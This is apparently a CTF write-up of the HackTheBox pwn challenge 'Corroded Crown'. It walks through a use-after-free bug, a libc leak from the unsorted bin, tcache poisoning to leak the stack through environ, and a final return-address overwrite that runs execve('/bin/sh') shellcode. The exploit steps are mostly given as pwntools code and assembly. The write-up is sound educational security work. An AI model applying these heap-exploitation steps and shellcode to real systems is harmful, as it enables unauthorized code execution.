



## Writeup Corroded Crown - HTB Pwn Challenge

```
i don't remember the chall text, lmao, but it was really cool
```

### Scouting time (´•_•`;)
Looking at the decompiled code, you can see that, even though a pointer is freed in the `destroy_relic` function, the other functions `inscribe_relic` and `inspect_relic`, do not check whether the selected pointer has already been freed or not

```C
//destroy_relic
if ( is_used[16 * index] == 1 )
  {
    free(&relic[index]);
    is_used[16 * index] = 0;
    puts("[!] The relic crumbles to ash. The mark lingers.");
  }


// Inscribe_relic
...
printf("[?] Press your inscription into the metal (%d bytes):\n", *((_DWORD *)&size + 4 * (int)index));
  if ( !read(0, &relic[index], &size[index]) )
    _exit(0);
  puts("[+] The inscription has been pressed into the metal.");
...

...
// Inspect_relic
printf("[*] Relic [%d]: ", index);
  write(1, &relic[index], &size[index]);
  putchar(10);
```
This is a **use-after-free** vulnerability! We will need that later

There are two other significant details:
by running `checksec --file=corroded_crown` we can see that NX is disabled. Second, the .zip file contains a `glibc` directory, where we can find the libc version. In this case:
```bash
./ld-linux-x86-64.so.2 ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.17) stable release version 2.31.
``` 
*Cool, Safe Linking is not available in this version of libc, so we can write raw pointers without needing an additional heap leak to bypass pointer mangling (XORing the pointer before writing it)*

---

### Exploitation time ヾ(⌐■ㅅ■)ノ

A **use-after-free** vuln opens up to many exploiting tecniques, such as **tcache poisoning**. 
*Wait-! Before casting* **tcache poisoning** *I have to check my spellbook to remember how it's done!*

STEP 1: Two chunks allocated (size 0x20)

         chunk A                    chunk B
    ┌──────────────┐          ┌──────────────┐
    │  header: 0x21│          │  header: 0x21│
    ├──────────────┤          ├──────────────┤
    │  user data   │          │  user data   │
    │              │          │              │
    └──────────────┘          └──────────────┘


STEP 2: free(A), then free(B) -> tcache LIFO

    tcache[0x20] head
         │
         ▼
    ┌──────────────┐    fd    ┌──────────────┐
    │  chunk B     │─────────>│  chunk A     │──> NULL
    │  fd = &A     │          │  fd = 0x0    │
    └──────────────┘          └──────────────┘


STEP 3: UAF write on chunk B -> overwrite fd with TARGET

    tcache[0x20] head
         │
         ▼
    ┌──────────────┐    fd    ┌──────────────┐
    │  chunk B     │─────────>│  TARGET      │
    │  fd = TARGET │          │  (anywhere)  │
    └──────────────┘          └──────────────┘


STEP 4: malloc() -> returns chunk B (head of list)

    tcache[0x20] head
         │
         ▼
    ┌──────────────┐
    │  TARGET      │──> ???
    │  (anywhere)  │
    └──────────────┘


STEP 5: malloc() -> returns TARGET address!

    You now have a "chunk" at TARGET.
    Writing to it = arbitrary write.

    ┌──────────────────────────────┐
    │  TARGET (e.g. return addr)   │
    │  ┌────────────────────────┐  │
    │  │ you control this data  │  │
    │  └────────────────────────┘  │
    └──────────────────────────────┘


Then, we will likely end up writing shellcode since NX is disabled. Also, I'm a big fan of this photo, which contains the secret to unlocking the ultimate skill: **Pivoting Around Memory**


From here, we have all we need to define a strategy.

First, we need a libc leak. We can obtain that by leaking a pointer to `main_arena`, an area of the libc that tracks and manages the memory heap of the main thread. Since chunks in the unsorted bin have their forward and backward pointers pointing to `main_arena`, we can first forge a relic (large enough to go into the unsorted bin), destroy it, and then the use-after-free vuln to inspect it.

To better visualize it, I cast: unsorted bin representation ヽ(╬☉Д⊙)ﾉ\


```Python
forge(2,1056)
forge(3,32) # to prevent top chunk from absorbing the first chunk deallocated
destroy(2)
leak = u64(inspect(2).ljust(8,b'\x00'))
```

In your exploit, this will work just fine, but if you are debugging it with, for example, pwndbg, it's better to stop before message is printed and look at the bins, then verify your assumptions with `vmmap`



_Cool, first leak obtained._

Thanks to the secret knowledge from the image above, we know that we need `environ` to obtain a stack leak. But hey! What the hell is it? A 9th-level spell? An ultra-legendary sword? We must interrogate the Prophetic Unicorn!




*(TL;DR) is a variable in `libc` that contains a pointer to the stack. We can use it to leak the stack.*


Thanks Wise Unicorn. Now we can calculate `environ_address`
```Python
lbc_offset = 0x7ffff7fbfbe0 - 0x00007ffff7dd3000 # static values of libc leak - libc base
libc_base = leak - lbc_offset
environ_addr = libc_base + libc.symbols['environ']
```

#### And now, let's poison some tcache (⌐■-■)

We allocate two 16 bytes memory chunks, so that when they are freed they will go to the `tcache`. Then, thanks to the **use-after-free** vuln, we inscribe the `environ` address into the last freed chunk. In this way, the forward pointer of the first chunk will be overwritten with the `environ` address. We forge two other chunks, so that the first one will be the actual list's head and the other will be what it was pointing to. In our case, `environ` itself

```Python
forge(4,16)
forge(5,16)
destroy(4)
destroy(5)
inscribe(5,p64(environ_addr))
forge(6,16)
forge(7,16)
stack_leak = u64(inspect(7).ljust(8,b"\x00"))
```
*Note: Here we are writing the raw environ_addr directly into the freed chunk's forward pointer. This  works because our libc is older than 2.32. If Safe-Linking was enabled, we would have needed an additional heap leak to bypass the pointer mangling (XORing the pointer before writing it).*

Inspecting it, will give us the contents of `environ`, our stack leak!


With our juicy stack leak, we can calculate the return address of inscribe, since it will be the last function called to write the shellcode, and use it later to return to `return_address+8`
```Python
# writing shellcode
shellcode = """ 
   mov rax, 0x3b 
   xor rsi, rsi 
   xor rdx, rdx 
   lea rdi, [rip + binsh] 
   syscall 
   binsh: 
   .ascii "/bin/sh" 
   .byte 0x0 
   """ 
payload=asm(shellcode)

# return address
stack_offset = 0x00007fffffffd578 - 0x7fffffffd538 # static values of environ - return address of inscribe_relic
ret_addr = stack_leak - stack_offset
```

Time for the last tcache poisoning\
As above, we forge and destroy  two chunks. We write the return address into the head chunk so that the second re-forged chunk starts at the return address, where it will be overwritten with the address at which our shellcode begins, `return_address+8`.

```Python
# chunk pointing to retrun address
forge(12,48)
forge(13,48)
destroy(12)
destroy(13)
inscribe(13,p64(ret_addr))

# writing shellcode on return address
forge(14,48)
forge(15,48)
inscribe(15,p64(ret_addr+8)+payload)
p.interactive()
```

And when `inscribe_relic` returns, boom, we pwned it  ヽ(^ ᗨ ^)ノ

---

### My useless thoughts

It was my first heap challenge and it was a fun one, since it was not super straightforward and helped me understand how the heap works (or, at least, part of it).
Thanks to @Ub1k for the guidance, to @Serotav and @Marco for the learning material and to Rachele, the all-knowing eldritch entity, for reviewing my bad english!

other useful links to learn about tcache poisoning:\
https://tripoloski1337.github.io/research/2019/09/09/tcache_poisoning.html

https://github.com/shellphish/how2heap

https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/

https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/
